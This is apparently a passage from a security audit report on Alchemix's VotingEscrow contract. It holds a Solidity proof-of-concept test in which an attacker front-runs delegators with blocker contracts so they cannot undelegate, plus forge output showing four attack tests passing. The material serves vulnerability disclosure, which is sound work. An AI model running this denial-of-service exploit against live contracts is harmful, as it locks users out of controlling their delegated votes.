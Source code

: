 ```solidity
    }

    function testAttackerPreventHisDelegatorsFromUndelegateHim() public {
        // Let say there is a good active user
        address goodDelegatee = attacker;

        // Multiple users delegate to him
        hevm.startPrank(alice);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        veALCX.createLock(TOKEN_1, THREE_WEEKS, false);
        veALCX.delegate(goodDelegatee);
        hevm.stopPrank();

        hevm.startPrank(bob);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        veALCX.createLock(TOKEN_1, THREE_WEEKS, false);
        veALCX.delegate(goodDelegatee);
        hevm.stopPrank();

        // However, one day `goodDelegatee` started a malicious activites!
        // His delegtors decided to stop delgating to him,
        // But the `goodDelegatee` turns to be an attacker!
        // Now he will prevent all his delegators from changing him, byy front runs thier transactions
        hevm.prank(goodDelegatee); // goodDelegatee == attacker
        veBlockers[0].blockTarget(alice);
        hevm.prank(goodDelegatee);
        veBlockers[1].blockTarget(bob);

        hevm.prank(alice);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.delegate(alice);

        hevm.prank(alice);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.delegate(bob);
    }
}
```

### Test Output
```bash
alchemix-v2-dao dos-maxdel 18m59s
❯ make test_file
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/*** --match-path src/test/VotingEscrowPoC.t.sol -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 4 tests for src/test/VotingEscrowPoC.t.sol:VotingEscrowPoC
[PASS] testAttackerFrontRunsAndBlockCreateLock() (gas: 46758218)
[PASS] testAttackerFrontRunsAndBlockTransferFrom() (gas: 29631885)
[PASS] testAttackerPreventHisDelegatorsFromUndelegateHim() (gas: 841509764)
[PASS] testAttackerPreventUserFromBeingDelegated() (gas: 29642124)
Suite result: ok. 4 passed; 0 failed; 0 skipped; finished in 1134.36s (560.02s CPU time)

Ran 1 test suite in 1135.64s (1134.36s CPU time): 4 tests passed, 0 failed, 0 skipped (4 total tests)
```

[1]: [alchemix-v2-dao/src/VotingEscrow.sol#L34 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L34)
[2]: [alchemix-v2-dao/src/VotingEscrow.sol#L1040 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1040)
[3]: [alchemix-v2-dao/src/VotingEscrow.sol#L1110 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1110)